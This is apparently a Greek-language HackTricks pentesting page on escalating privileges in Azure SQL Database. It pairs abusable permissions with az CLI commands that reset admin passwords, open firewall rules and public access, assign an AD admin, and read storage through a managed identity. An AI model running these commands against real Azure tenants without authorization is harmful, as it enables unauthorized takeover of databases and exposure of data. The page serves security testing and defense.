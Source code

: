 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Με αυτές τις άδειες, ένας χρήστης μπορεί να εκτελέσει κλιμάκωση προνομίων ενημερώνοντας ή δημιουργώντας Azure SQL servers και τροποποιώντας κρίσιμες ρυθμίσεις, συμπεριλαμβανομένων των διαπιστευτηρίων διαχειριστή. Αυτή η άδεια επιτρέπει στον χρήστη να ενημερώνει τις ιδιότητες του διακομιστή, συμπεριλαμβανομένου του κωδικού πρόσβασης του διαχειριστή SQL server, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή έλεγχο του διακομιστή. Μπορούν επίσης να δημιουργήσουν νέους διακομιστές, ενδεχομένως εισάγοντας σκιασμένη υποδομή για κακόβουλους σκοπούς. Αυτό γίνεται ιδιαίτερα κρίσιμο σε περιβάλλοντα όπου η "Microsoft Entra Authentication Only" είναι απενεργοποιημένη, καθώς μπορούν να εκμεταλλευτούν την SQL-based authentication για να αποκτήσουν απεριόριστη πρόσβαση.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
Επιπλέον, είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση αν θέλετε να έχετε πρόσβαση από ένα μη ιδιωτικό σημείο, για να το ενεργοποιήσετε:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
Επιπλέον, με τα δικαιώματα μπορείτε να ενεργοποιήσετε την εκχώρηση ταυτότητας, να λειτουργήσετε με την διαχειριζόμενη ταυτότητα που είναι συνδεδεμένη με τον διακομιστή. Για παράδειγμα εδώ με μια διαχειριζόμενη ταυτότητα που μπορεί να έχει πρόσβαση στο Azure Storage:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

Ένας επιτιθέμενος μπορεί να χειριστεί τους κανόνες τείχους προστασίας στους Azure SQL servers για να επιτρέψει μη εξουσιοδοτημένη πρόσβαση. Αυτό μπορεί να εκμεταλλευτεί για να ανοίξει τον διακομιστή σε συγκεκριμένες διευθύνσεις IP ή σε ολόκληρες περιοχές διευθύνσεων IP, συμπεριλαμβανομένων των δημόσιων IP, επιτρέποντας την πρόσβαση σε κακόβουλους παράγοντες. Αυτή η δραστηριότητα μετά την εκμετάλλευση μπορεί να χρησιμοποιηθεί για να παρακαμφθούν οι υπάρχοντες ελέγχοι ασφάλειας δικτύου, να καθιερωθεί επιμονή ή να διευκολυνθεί η πλευρική κίνηση μέσα στο περιβάλλον εκθέτοντας ευαίσθητους πόρους.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/outboundFirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Με αυτή την άδεια, μπορείτε να δημιουργήσετε, να τροποποιήσετε ή να διαγράψετε κανόνες τείχους προστασίας IPv6 σε έναν Azure SQL Server. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο ή εξουσιοδοτημένο χρήστη να παρακάμψει τις υπάρχουσες ρυθμίσεις ασφαλείας δικτύου και να αποκτήσει μη εξουσιοδοτημένη πρόσβαση στον διακομιστή. Προσθέτοντας έναν κανόνα που επιτρέπει την κυκλοφορία από οποιαδήποτε διεύθυνση IPv6, ο επιτιθέμενος θα μπορούσε να ανοίξει τον διακομιστή για εξωτερική πρόσβαση.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/ipv6FirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Με αυτές τις άδειες μπορείτε να κάνετε privesc σε ένα περιβάλλον Azure SQL Server αποκτώντας πρόσβαση σε SQL βάσεις δεδομένων και ανακτώντας κρίσιμες πληροφορίες. Χρησιμοποιώντας την παρακάτω εντολή, ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης μπορεί να ορίσει τον εαυτό του ή έναν άλλο λογαριασμό ως τον διαχειριστή Azure AD. Εάν είναι ενεργοποιημένη η "Μόνο Αυθεντικοποίηση Microsoft Entra", μπορείτε να αποκτήσετε πρόσβαση στον διακομιστή και τις παρουσίες του. Ακολουθεί η εντολή για να ορίσετε τον διαχειριστή Azure AD για έναν SQL διακομιστή:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Με αυτές τις άδειες, μπορείτε να ρυθμίσετε και να επιβάλετε την "Μόνο Αυθεντικοποίηση Microsoft Entra" σε έναν Azure SQL Server, κάτι που θα μπορούσε να διευκολύνει την κλιμάκωση προνομίων σε ορισμένα σενάρια. Ένας επιτιθέμενος ή ένας εξουσιοδοτημένος χρήστης με αυτές τις άδειες μπορεί να ενεργοποιήσει ή να απενεργοποιήσει την αυθεντικοποίηση μόνο μέσω Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
